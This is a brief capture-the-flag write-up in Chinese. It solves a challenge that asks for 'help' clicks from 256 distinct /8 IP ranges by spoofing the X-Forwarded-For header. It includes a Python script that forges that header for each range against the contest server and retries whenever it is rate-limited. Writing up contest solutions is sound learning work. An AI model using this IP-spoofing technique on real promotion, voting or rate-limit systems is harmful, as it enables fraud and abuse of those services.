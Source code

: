# FLAG 助力大红包

总结题意：你需要用 256 个不同的 /8 IP 地址砍红包（访问对应 URL）。

但是这怎么可能呢，有些 IP 段本来就是有保留用途的，而且时间还限制 10 分钟。

<del>经过一番胡思乱想</del>，发现可以通过携带 `X-Forwarded-For` header 来欺骗，就能轻松砍到 flag。

```python
import requests
import time

for i in range(256):
    while True:
        r = requests.post(
            'http://202.38.93.111:10888/invite/...',
            data={ 'ip': f'{i}.1.1.1' },
            headers={ 'X-Forwarded-For': f'{i}.1.1.1' })

        if '助力成功！' in r.text:
            print(f'Success {i}')
            break
        elif '操作速度太快了' in r.text:
            print(f'Too fast, sleep')
            time.sleep(1)
```
